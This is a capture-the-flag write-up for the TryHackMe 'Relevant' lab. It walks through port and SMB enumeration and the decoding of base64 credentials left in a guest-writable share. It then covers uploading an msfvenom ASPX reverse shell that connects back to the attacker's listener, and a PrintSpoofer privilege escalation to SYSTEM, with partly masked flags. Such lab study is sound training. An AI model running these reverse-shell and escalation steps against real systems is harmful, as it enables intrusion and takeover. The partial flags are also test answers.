

# Try Hack Me Writeup - Relevant

TryHackMe room: <https://tryhackme.com/room/relevant>

Penetration Testing Challenge


**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

_SIDE NOTES:_
- _I lost 3 times this virtual machine and had to start over each time. Feels like this virtual machine is not so stable. Even being gentle, this one just died several times in the middle of basic command and for no apparent reason. Be warned and not be confused with different target IPs in this writeup._
- _I confess that I had to look up for the official video writeup, lost in space for the privilege escalation on this one. And honestly, I was tired of that rabbit hole._

## Table of Contents

- [Pre-Engagement Briefing](#pre-engagement-briefing)
- [Setup](#setup)
- [Tools Used](#tools-used)
- [Enumeration of ports and services](#enumeration-of-ports-and-services)
- [Enumerating the webservers](#enumerating-the-webservers)
- [Enumerating the Samba shares](#enumerating-the-samba-shares)
- [Looking back to the webserver](#looking-back-to-the-webserver)
- [Reverse Shell](#reverse-shell)
- [Privileges escalation](#privileges-escalation)
- [Grabbing the user.txt and root.txt flags](#grabbing-the-usertxt-and-roottxt-flags)

## Pre-Engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

**_Scope of Work_**

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt

Additionally, the client has provided the following scope allowances:

- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.

**Writeups will not be accepted for this room.**

User Flag:

    THM{fd*****4vk346ksxfr21tg7*****45}

Root Flag:

    THM{1f*****69devly1gl320zaf*****pv}

## Setup

```commandline
$ export IP_TARGET=10.10.227.128
$ export WRITEUP="$HOME/Documents/THM/relevant/"
$ mkdir -p $WRITEUP
$ cd $WRITEUP
$ tmux
```

## Tools Used

- nmap
- gobuster
- smbclient
- enum4linux
- msfvenon

## Enumeration of ports and services

````commandline
# nmap -sCV -p- -oN initial_scan.nmap $IP_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-07 22:16 CEST
Nmap scan report for 10.10.227.128
Host is up (0.031s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-09-07T20:18:49+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2021-09-06T20:07:14
|_Not valid after:  2022-03-08T20:07:14
|_ssl-date: 2021-09-07T20:19:29+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m00s, deviation: 3h07m50s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-07T13:18:50-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-07T20:18:49
|_  start_date: 2021-09-07T20:07:30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 208.98 seconds
```` 

Resume:

| Port | Service | Description |
|:---:|:---:|---|
| `80` | `http` | Microsoft IIS httpd 10.0 |
| `135` | `msrpc` | Microsoft Windows RPC |
| `139` | `netbios-ssn` | Microsoft Windows netbios-ssn |
| `445` | `microsoft-ds` | Windows Server 2016 Standard Evaluation 14393 microsoft-ds |
| `3389` | `ms-wbt-server` | Microsoft Terminal Services |
| `49663` | `http` | Microsoft IIS httpd 10.0 |
| `49667` | `msrpc` | Microsoft Windows RPC |
| `49669` | `msrpc` | Microsoft Windows RPC |

Looking at the 2 webservers on port `80` and `49663`, nothing in particular to be seen at first sight. The default IIS web server. Nothing special in the source code too.



## Enumerating the webservers

Enumerating with `gobuster` on the default port (`80`) did not reveal anything except a lot of errors and a lot of wasted time. Enumerating on port `49663` gave good results. Actually, I left gobuster doing his job

````commandline
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP_TARGET:49663 -t 25
                                                                                                                                                          
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.227.128:49663
[+] Method:                  GET
[+] Threads:                 25
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/07 22:26:33 Starting gobuster in directory enumeration mode
===============================================================
/*checkout*           (Status: 400) [Size: 3420]
/*docroot*            (Status: 400) [Size: 3420]
/*                    (Status: 400) [Size: 3420]
/http%3A%2F%2Fwww     (Status: 400) [Size: 3420]
/http%3A              (Status: 400) [Size: 3420]
/q%26a                (Status: 400) [Size: 3420]
/**http%3a            (Status: 400) [Size: 3420]
/*http%3A             (Status: 400) [Size: 3420]
/**http%3A            (Status: 400) [Size: 3420]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 3420]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 3420]
/http%3A%2F%2Fblog    (Status: 400) [Size: 3420]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 3420]
/s%26p                (Status: 400) [Size: 3420]
/%3FRID%3D2671        (Status: 400) [Size: 3420]
/devinmoore*          (Status: 400) [Size: 3420]
/200109*              (Status: 400) [Size: 3420]
/*sa_                 (Status: 400) [Size: 3420]
/*dc_                 (Status: 400) [Size: 3420]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 3420]
/Chamillionaire%20%26%20Paul%20Wall-%20Get%20Ya%20Mind%20Correct (Status: 400) [Size: 3420]
/Clinton%20Sparks%20%26%20Diddy%20-%20Dont%20Call%20It%20A%20Comeback%28RuZtY%29 (Status: 400) [Size: 3420]
/DJ%20Haze%20%26%20The%20Game%20-%20New%20Blood%20Series%20Pt (Status: 400) [Size: 3420]                   
/http%3A%2F%2Fradar   (Status: 400) [Size: 3420]                                                           
/q%26a2               (Status: 400) [Size: 3420]                                                           
/login%3f             (Status: 400) [Size: 3420]                                                           
/Shakira%20Oral%20Fixation%201%20%26%202 (Status: 400) [Size: 3420]                                        
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 3420]                                                  
/http%3A%2F%2Fweblog  (Status: 400) [Size: 3420]                                                           
/http%3A%2F%2Fswik    (Status: 400) [Size: 3420]                                                           
/nt4wrksv             (Status: 301) [Size: 159] [--> http://10.10.227.128:49663/nt4wrksv/]                 
                                                                                                           
===============================================================
2021/09/07 22:50:31 Finished
===============================================================
````

## Enumerating the Samba shares

We first run the `enum4linux` scan with the `-a` flag.

````commandline
$ enum4linux -a $IP_TARGET
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Sep  7 22:20:16 2021

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.227.128
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===================================================== 
|    Enumerating Workgroup/Domain on 10.10.227.128    |
 ===================================================== 
[E] Can't find workgroup/domain


 ============================================= 
|    Nbtstat Information for 10.10.227.128    |
 ============================================= 
Looking up status of 10.10.227.128
No reply from 10.10.227.128

 ====================================== 
|    Session Check on 10.10.227.128    |
 ====================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 437.
[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.
````

Second `enum4linux` scan but more detailed, with shares list and password policy. We will see that we can not map the hidden (system) shares `ADMIN$`, `C$`, `IPC$`. But we can map and get a listing of the share `nt4wrksv`. This without providing a password for the `guest` user.

````commandline
$ enum4linux -S -P -u guest $IP_TARGET
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Sep  7 22:22:24 2021

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.227.128
RID Range ........ 500-550,1000-1050
Username ......... 'guest'
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===================================================== 
|    Enumerating Workgroup/Domain on 10.10.227.128    |
 ===================================================== 
[E] Can't find workgroup/domain


 ====================================== 
|    Session Check on 10.10.227.128    |
 ====================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 437.
[+] Server 10.10.227.128 allows sessions using username 'guest', password ''
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 451.
[+] Got domain/workgroup name: 

 ============================================ 
|    Getting domain SID for 10.10.227.128    |
 ============================================ 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ========================================== 
|    Share Enumeration on 10.10.227.128    |
 ========================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 640.

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.227.128
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 654.
//10.10.227.128/ADMIN$  Mapping: DENIED, Listing: N/A
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 654.
//10.10.227.128/C$      Mapping: DENIED, Listing: N/A
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 654.
//10.10.227.128/IPC$    [E] Can't understand response:
NT_STATUS_INVALID_INFO_CLASS listing \*
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 654.
//10.10.227.128/nt4wrksv        Mapping: OK, Listing: OK

 ===================================================== 
|    Password Policy Information for 10.10.227.128    |
 ===================================================== 
[E] Unexpected error from polenum:


[+] Attaching to 10.10.227.128 using guest

[+] Trying protocol 139/SMB...

        [!] Protocol failed: Cannot request session (Called Name:10.10.227.128)

[+] Trying protocol 445/SMB...

        [!] Protocol failed: rpc_s_access_denied

Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 501.

[E] Failed to get password policy with rpcclient

enum4linux complete on Tue Sep  7 22:22:42 2021
````

We can now use `smbclient` to look back at this `nt4wrksv` share. Actually, we have no need to use the `-U guest` flag on this server, but to not login in with our currently logged-in user on the host machine (the attackers box) and to not give this information to the server's log, we use the `guest` user.

````commandline
$ smbclient -U guest -L \\\\$IP_TARGET\\
Enter WORKGROUP\guest's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
````

We can now try to see what's in this `nt4wrksv` share.

````commandline
$ smbclient -U guest \\\\$IP_TARGET\\nt4wrksv\\
Enter WORKGROUP\guest's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 5135042 blocks available
````

We can now look at this file with the command `more`, or just `get` (download) the file, which I prefer to use.

````commandline
smb: \> get passwords.txt 
getting file \passwords.txt of size 98 as passwords.txt (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
````

Before leaving this, it is interesting to see we have write access to this share too.

````commandline
smb: \> mkdir test
smb: \> ls
  .                                   D        0  Tue Sep  7 22:59:30 2021
  ..                                  D        0  Tue Sep  7 22:59:30 2021
  passwords.txt                       A       98  Tue Sep  7 22:56:21 2021
  test                                D        0  Tue Sep  7 22:59:30 2021

                7735807 blocks of size 4096. 5135136 blocks available
smb: \>
````

Looking at the `password.txt` file we got of that share. We see there are 2 `base64` encoded lines. I have reformatted the output here. But anyway, this these credentials are a big rabbit hole. These will not bring us anywhere.

````commandline
$ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

┌──(itchy㉿scratchy)-[~/Documents/THM/relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123

┌──(itchy㉿scratchy)-[~/Documents/THM/relevant]
└─$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
````

## Looking back to the webserver

Now that our `gobuster` scans are finally done, we see there is a `/nt4wrksv` directory. Which is the same naming as on the Samba share because we find back that `password.txt` file on <http://10.10.227.128:49663/nt4wrksv/passwords.txt>.

As we have write permissions on this samba user. We can upload there a reverse shell.

## Reverse Shell

As this is a `Microsoft` web server, we need to make use of the language it is able to handle. So forget the classing `PHP` web shells we have by default available on our Kali machine. 

```commandline
$ msfvenom -p windows/x64/shell_reverse_tcp LHOSt=10.8.208.30 LPORT=53 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3434 bytes
Saved as: rev.aspx
```

Transfering our reverse shell with the `smbclient` tool.

````commandline
$ smbclient -U guest \\\\$IP_TARGET\\nt4wrksv\\
Enter WORKGROUP\guest's password: 
Try "help" to get a list of possible commands.
smb: \> put rev.aspx 
putting file rev.aspx as \rev.aspx (22.5 kb/s) (average 22.5 kb/s)
smb: \> ls
  .                                   D        0  Tue Sep  7 23:49:20 2021
  ..                                  D        0  Tue Sep  7 23:49:20 2021
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  rev.aspx                            A     3434  Tue Sep  7 23:49:20 2021

                7735807 blocks of size 4096. 5137011 blocks available
smb: \> exit
````

Setting up our `NetCat` listener on the host machine.

```
$ nc -nlvp 53
```

And now pointing our web browser to <http://10.10.227.128:49663/nt4wrksv/rev.aspx> should start our reverse shell.

````commandline
connect to [10.8.208.30] from (UNKNOWN) [10.10.155.122] 49896
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>
````

## Privileges escalation

````commandline
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

c:\windows\system32\inetsrv>
````

We will make use of the `SeImpersonatePrivilege` flaw that has been recently discovered.

Download the binary `PrintSpoofer.exe` from here <https://github.com/dievus/printspoofer>. It is from the author of this box in this room.

On our host machine, we need to get that file.

````commandline
$ wget https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
````

We can now transfer that with `smbclient`.

````commandline
$ smbclient -U guest \\\\$IP_TARGET\\nt4wrksv\\
Enter WORKGROUP\guest's password: 
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe 
putting file PrintSpoofer.exe as \PrintSpoofer.exe (207.0 kb/s) (average 207.0 kb/s)
smb: \> dir
  .                                   D        0  Wed Sep  8 00:22:09 2021
  ..                                  D        0  Wed Sep  8 00:22:09 2021
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  PrintSpoofer.exe                    A    27136  Wed Sep  8 00:22:09 2021
  rev.aspx                            A     3434  Tue Sep  7 23:49:20 2021

                7735807 blocks of size 4096. 5136990 blocks available
smb: \> exit
````

Run the `PrintSpoofer.exe` so that we can make use of the ImpersonatePrivilege.

````commandline
c:\windows\system32\inetsrv>cd c:\inetpub\wwwroot\nt4wrksv
cd c:\inetpub\wwwroot\nt4wrksv

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
````

## Grabbing the user.txt and root.txt flags

Looking where our potential data might be.

````commandline
C:\Windows\system32>dir c:\Users\ 
dir c:\Users\
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  08:05 AM    <DIR>          .NET v4.5
07/25/2020  08:05 AM    <DIR>          .NET v4.5 Classic
07/25/2020  10:30 AM    <DIR>          Administrator
07/25/2020  02:03 PM    <DIR>          Bob
07/25/2020  07:58 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)  20,251,389,952 bytes free

C:\Windows\system32>
````

Grabbing the `user.txt` flag.

````commandline
c:\Windows\System32>cd C:\Users\Bob\Desktop
cd C:\Users\Bob\Desktop

C:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,193,001,472 bytes free

C:\Users\Bob\Desktop>more user.txt
more user.txt
THM{fd*****4vk346ksxfr21tg7*****45}
````

Grabbing the `root.txt` flag.

````commandline
C:\Users\Bob\Desktop>cd ../../Administrator
cd ../../Administrator

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Administrator\Desktop

07/25/2020  08:24 AM    <DIR>          .
07/25/2020  08:24 AM    <DIR>          ..
07/25/2020  08:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,200,579,072 bytes free

C:\Users\Administrator\Desktop>more root.txt
more root.txt
THM{1f*****69devly1gl320zaf*****pv}

C:\Users\Administrator\Desktop>
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
